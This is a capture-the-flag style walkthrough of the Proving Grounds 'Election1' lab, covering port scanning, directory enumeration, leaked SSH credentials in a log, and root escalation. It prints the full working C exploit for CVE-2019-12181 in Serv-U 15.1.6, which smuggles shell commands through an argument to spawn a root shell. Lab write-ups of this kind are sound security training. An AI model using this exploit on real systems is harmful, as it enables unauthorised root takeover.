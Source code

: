 * * *
 ### Lab: Election1
 ### Platform: Proving Grounds
* * *

- Rustscan's scan details

          ❯ rustscan -a 192.168.153.211 -- -sC -sV
        .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
        | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
        | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
        `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
        The Modern Day Port Scanner.
        ________________________________________
        : https://discord.gg/GFrQsGy           :
        : https://github.com/RustScan/RustScan :
         --------------------------------------
        🌍HACK THE PLANET🌍
        
        [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
        [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
        [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
        Open 192.168.153.211:22
        Open 192.168.153.211:80
        [~] Starting Script(s)
        [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
        PORT   STATE SERVICE REASON  VERSION
        22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
        | ssh-hostkey: 
        |   2048 20:d1:ed:84:cc:68:a5:a7:86:f0:da:b8:92:3f:d9:67 (RSA)
        | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCoqt4FP0lhkJ0tTiMEUrVqRIcNKgQK22LJCOIVa1yoZf+bgOqsR4mIDjgpaJm/SDrAzRhVlD1dL6apkv7T7iceuo5QDXYvRLWS+PfsEaGwGpEVtpTCl/BjDVVtohdzgErXS69pJhgo9a1yNgVrH/W2SUE1b36ODSNqVb690+aP6jjJdyh2wi8GBlNMXBy6V5hR/qmFC55u7F/z5oG1tZxeZpDHbgdM94KRO9dR0WfKDIBQGa026GGcXtN10wtui2UHo65/6WgIG1LxgjppvOQUBMzj1SHuYqnKQLZyQ18E8oxLZTjc6OC898TeYMtyyKW0viUzeaqFxXPDwdI6G91J
        |   256 78:89:b3:a2:75:12:76:92:2a:f9:8d:27:c1:08:a7:b9 (ECDSA)
        | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBO9gF8Fv+Uox9ftsvK/DNkPNObtE4BiuaXjwksbOizwtXBepSbhUTyL5We/fWe7x62XW0CMFJWcuQsBNS7IyjsE=
        |   256 b8:f4:d6:61:cf:16:90:c5:07:18:99:b0:7c:70:fd:c0 (ED25519)
        |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINfCRDfwNshxW7uRiu76SMZx2hg865qS6TApHhvwKSH5
        80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
        | http-methods: 
        |_  Supported Methods: GET POST OPTIONS HEAD
        |_http-server-header: Apache/2.4.29 (Ubuntu)
        |_http-title: Apache2 Ubuntu Default Page: It works
        Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- Scanning for directories with ffuf reveals these directories

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0314db07-803b-49bc-b0fc-ee0c8089e292)

- I scanned the `/election/` directory with ffuf and I discovered an `admin`directory

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/e9318af5-7af0-4627-8e99-509b8a5f218c)

- Ffuf discovered a `/logs/` directory after scanning the `/admin/` direcotory

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/f8d1babc-3df0-499d-9e5d-95816226f9a4)
  
- The logs directory contains a log file which reveals love ssh credentials

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/f7af2def-4872-48a4-adce-0e122f54a5ac)

- SSH access

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/03e41edd-2b47-4cab-aa7f-88eacd63fe79)

### PRIVESC

- The server contains a Serv-U ver 15.1.6 binary which has a local privilege escalation exploit.

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d6e86270-d4f9-45f3-8e2d-2cee57510d17)

        /*
        
        CVE-2019-12181 Serv-U 15.1.6 Privilege Escalation 
        
        vulnerability found by:
        Guy Levin (@va_start - twitter.com/va_start) https://blog.vastart.dev
        
        to compile and run:
        gcc servu-pe-cve-2019-12181.c -o pe && ./pe
        
        */
        
        #include <stdio.h>
        #include <unistd.h>
        #include <errno.h>
        
        int main()
        {       
            char *vuln_args[] = {"\" ; id; echo 'opening root shell' ; /bin/sh; \"", "-prepareinstallation", NULL};
            int ret_val = execv("/usr/local/Serv-U/Serv-U", vuln_args);
            // if execv is successful, we won't reach here
            printf("ret val: %d errno: %d\n", ret_val, errno);
            return errno;
        }

- Root access

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1107846c-a02b-4b04-8687-faf002fae805)
